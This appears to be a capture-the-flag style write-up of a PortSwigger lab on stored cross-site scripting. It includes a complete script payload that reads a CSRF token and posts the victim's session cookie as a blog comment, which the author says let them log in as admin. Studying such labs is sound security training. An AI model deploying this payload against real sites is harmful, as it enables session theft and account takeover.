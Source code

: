 # Exploiting cross-site scripting to steal cookies

So in this challenge, we are going to implement exploitation on user cookies using XSS Attack. We got another example of Blog Site where they allow user to give comment on posts:
![comment-section]()

If we try to attempt XSS using ``<script>`` tag, then we able to perform XSS, it means that we can just insert our payload normally inside the ``<script>`` tag.

![script-tag-attempt]()

![script-tag-attempt-success]()

Now let's create a payload where we able to get user cookies, What we able to do is:

1. Send the user cookies to a webhook or our site that collects user cookies
2. Show the cookies in the comment box

I tried the first solution but the result was not as what i expected, i only got a session but not the cookies we need to gain access since it was a third party and Portwigger didn't allow us to use third party app, so i tried the second solution, I create a payload that force user to request post a comment to a blog, you can find the right endpoint and needed data using intercept in **BurpSuite**. To post a comment, we need to get their CSRF Token, we can find it in the ``<input>`` tag attribute. 

![CSRF-value]()


This is my final payload:
```html
<script>
    window.onload = function(){
        const Token = document.getElementsByTagName('input')[0].value
        var data = 'csrf='+Token +'&'
        data += 'postId=10&'
        data += 'comment='+document.cookie+'&'
        data += 'name=DjumantotheAdmin&'
        data += 'email=roc@chic.com&'
        data += 'website=https://google.com'
        fetch('https://0a4500e6034e583480d12b22009f0070.web-security-academy.net/post/comment', 
                {
                    method: 'POST',
                    mode: 'no-cors',
                    body: data
                }
            )
    };
</script>
```
So here's how the code works:
- We want to run it right where the content is loaded
- We take their CSRF Token from the input tag
- We set the comment using their cookies
- We set the postId value using current blog value which is 10

And this is the result:

![attempt-using-payload]()

![Result]()

![Success]()

![login-as-admin]()
